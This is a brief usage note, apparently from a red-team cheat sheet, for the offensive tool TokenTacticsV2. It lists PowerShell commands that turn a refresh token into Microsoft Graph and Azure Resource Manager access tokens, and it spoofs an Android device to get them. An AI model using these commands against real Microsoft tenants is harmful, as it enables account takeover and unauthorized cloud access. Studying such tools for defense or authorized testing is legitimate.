 # TokenTacticsV2 

## Link: https://github.com/f-bader/TokenTacticsV2

### Usage:

 - Invoke-RefreshToMSGraphToken -domain DOMAIN.CORP -refreshToken "REFRESH_TOKEN" ( Create an access token for Microsoft Graph from our refresh token.)

 - $MSGraphToken.access_token (This is the generated access token from the previous command)

 - Invoke-RefreshToAzureManagementToken -Domain DOMAIN.CORP -RefreshToken $refreshtoken -Device AndroidMobile -Browser Android (Specify the device and so we can again pretend to be an Android device, and successfully get an access token for the Azure Resource Management ARM API)

 - $AzureManagementToken.access_token (The ARM access token from the previous command)


